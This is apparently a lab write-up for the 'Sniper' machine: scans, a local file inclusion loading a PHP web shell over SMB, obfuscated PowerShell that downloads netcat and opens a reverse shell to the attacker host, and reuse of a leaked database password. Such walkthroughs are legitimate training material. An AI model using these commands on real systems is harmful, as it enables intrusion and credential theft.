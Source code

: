 #LFI #RFI #SMB #Powershell
# masscan results
```shell
sudo masscan -p1-65535 $IP --rate 1000 -e tun0
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2024-11-02 11:03:21 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.129.229.6                                    
Discovered open port 139/tcp on 10.129.229.6                                   
Discovered open port 135/tcp on 10.129.229.6                                   
Discovered open port 445/tcp on 10.129.229.6                                   
Discovered open port 49667/tcp on 10.129.229.6   
```

# nmap scan result

```shell
# Nmap 7.94SVN scan initiated Sat Nov  2 06:10:04 2024 as: nmap -sC -sV -oN nmap/snipe -T5 --min-rate=1000 -p- 10.129.229.6
Nmap scan report for 10.129.229.6
Host is up (0.22s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Sniper Co.
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-11-02T18:13:16
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  2 06:13:54 2024 -- 1 IP address (1 host up) scanned in 230.28 seconds

```

webserver OS and PHP version

```shell
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.1
```

# Found LFI vulnerability on http://10.129.229.6/blog/?lang=blog-es.php that can execute arbitrary remote code using SMB server


# Created an smb server

> modified the /etc/samba/smb.conf

```shell
[<share_name>]
read only = yes
path=/srv/smb/
guest ok = yes
comment = "TEST"
browseable = yes
```


> encountered an error upon setting the smb path inside the user's home directory, 
> user login credentials needed for it be accessed on the SMB server
> had to configure it on the root directory /srv/smb so there would be no errors

```shell
sudo systemctl restart smb
```

> restarted the smb service running on the machine to apply changes on the configuration

# file.php
```php
<?php
exec($_REQUEST['cmd'])
?>
```
# included the smb server on the webpage using the lang parameter

```
http://10.129.229.6/blog/?lang=\\10.10.14.84\share\file.php&parameter=cmd
```

> can also used a POST request for the same endpoint, just had to add Content-Type header with a value of application/x-www-form-urlencoded


```shell
cmd=powershell+/enc+SQBXAFIAIABcAFwAMQAwAC4AMQAwAC4AMQA0AC4AOAA0AFwAZQB4AHAAbABvAGkAdABcAG4AYwA2ADQALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAEUATQBQAFwAbgBjAC4AZQB4AGUACgA=
```

> the command above downloads netcat file from the smb server, it uses IWR 


```shell
cmd=powershell+/enc+QwA6AFwAVwBpAG4AZABvAHcAcwBcAFQARQBNAFAAXABuAGMALgBlAHgAZQAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwAIAAxADAALgAxADAALgAxADQALgA4ADQAIAA0ADQANAA0AAoA
```

> executes nc.exe from C:/Windows/Temp/nc.exe

```shell
 mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");

```

> found credentials from db.php

# Used the credentials on the machine 

```powershell
PS C:\inetpub\wwwroot\blog> $user = "sniper\\chris"
$user = "sniper\\chris"

PS C:\inetpub\wwwroot\blog> $pass = "36mEAhz/B8xQ~2VM" 
$pass = "36mEAhz/B8xQ~2VM" 
PS C:\inetpub\wwwroot\blog> $secpass = ConvertTo-SecureString $pass -AsPlainText -Force
$secpass = ConvertTo-SecureString $pass -AsPlainText -Force
PS C:\inetpub\wwwroot\blog> $creds = New-Object System.Management.Automation.PSCredential ($user, $secpass)
$creds = New-Object System.Management.Automation.PSCredential ($user, $secpass)
PS C:\inetpub\wwwroot\blog> invoke-command -Credential $creds -Computer localhost -ScriptBlock {whoami}
invoke-command -Credential $creds -Computer localhost -ScriptBlock {whoami}
sniper\chris

```

> -Computer Localhost -ComputerName <hostname>